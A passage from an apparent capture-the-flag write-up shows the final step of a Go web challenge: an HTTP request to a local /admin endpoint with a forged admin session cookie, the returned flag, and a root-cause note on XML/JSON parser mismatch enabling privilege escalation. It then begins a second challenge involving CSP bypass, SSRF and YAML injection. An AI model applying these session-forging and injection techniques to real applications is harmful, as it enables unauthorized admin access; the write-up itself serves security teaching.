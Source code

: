 Now we have a valid admin session cookie.

---

### Step 2: Access `/admin` with stolen cookie
```http
GET /admin HTTP/1.1
Host: 127.0.0.1:5008
Cookie: session=eyJpc19hZG1pbiI6dHJ1ZX0...
```

**Response:**
```
Welcome to the admin panel! Here is the flag: BHFlagY{FakeFlag}
```

![Flag screenshot](/assets/img/flagGobrr.png)

Now we have a valid admin session cookie.

---

### Root Cause
- **Go’s dual parser behavior** (XML first, JSON fallback).
- **Struct tag mismatch**:
  - JSON ignores `IsAdmin`.
  - XML allows setting `IsAdmin`.
- This leads to a **privilege escalation via XML injection**.



## 3) CTF Web Challenge Writeup — cute_csp

### Overview
This challenge (`cute_csp`) combines **CSP bypass, SSRF, and YAML injection** to leak the admin flag.  
The setup consists of a PHP web app and a Python bot that visits user-supplied URLs with admin privileges.
